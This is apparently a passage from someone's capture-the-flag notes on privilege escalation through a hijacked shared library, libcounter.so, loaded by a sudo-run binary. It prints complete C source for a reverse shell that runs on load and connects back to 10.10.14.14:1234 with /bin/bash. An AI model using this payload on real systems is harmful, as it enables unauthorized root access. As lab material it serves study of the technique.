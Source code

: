 *(Nice [article](https://tbhaxor.com/exploiting-shared-library-misconfigurations/) for compiling syntax and overall shared library misconfigurations)*

_(**NOTE**: A great tip I learnt here is that, in certain situations, you may need to have your function execute before anything else, as that may prevent it from running properly/at all. For example, in this scenario our primary executable/binary `stock` is going to be the one calling for this library, and no matter what I did, it never executed my function for some reason, even though its supposed to called my library. So what we had to do was add `static int main() __attribute__((constructor));`, and that basically told the binary that, the second you get executed, execute me as well.)_

Lets make our own `libcounter.so` file now, containing a reverse shell:

```
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

static int main() __attribute__((constructor));

int main(void){
    int port = 1234;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
	revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.14");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/bash", NULL};
    execve("/bin/bash", argv, NULL);

    return 0;       
}
```

Then compile it:

![image](https://github.com/partyh4t/Cyber-Notes/assets/114421293/546ec34b-5f49-4cb6-adbb-840ff59d2792)

Then finally execute the binary with `sudo`.

![image](https://github.com/partyh4t/Cyber-Notes/assets/114421293/ab69db90-5291-4da7-ae38-acd25aa1013e)

Pwned. 
